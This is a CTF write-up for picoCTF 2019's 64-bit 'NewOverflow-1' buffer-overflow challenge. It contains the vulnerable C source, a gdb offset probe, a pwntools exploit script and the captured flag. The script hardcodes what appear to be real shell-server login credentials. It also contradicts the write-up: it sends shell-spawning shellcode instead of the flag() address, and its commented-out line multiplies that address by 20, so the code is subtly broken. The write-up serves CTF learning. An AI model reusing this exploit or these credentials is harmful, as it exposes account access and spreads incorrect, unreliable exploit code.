 # Problem
Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln). You can find it in /problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89 on the shell server. [Source](https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln.c).

## Hints:
Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln
wget https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

The call to ```gets()``` in ```vuln()``` is unsafe, there is no limit checking.

We can override the return address and jump to ```flag()```.

First we need to check the offset overriding the return address. We can use this gdbinit script
```
run < <(echo AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPP)
p $rbp
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x00000000004007e7 in vuln ()
$1 = (void *) 0x4949494949494949
```

We know that ```IIIIIIII``` overrides the return address.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89')
  p = s.process('./vuln')

binary = ELF('./vuln')

print p.recvuntil('flag:')
p.sendline('AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII' + asm(shellcraft.amd64.linux.sh()))#p64(binary.symbols['flag'] * 20))

print p.recvall()
```

Flag: picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a32b9368}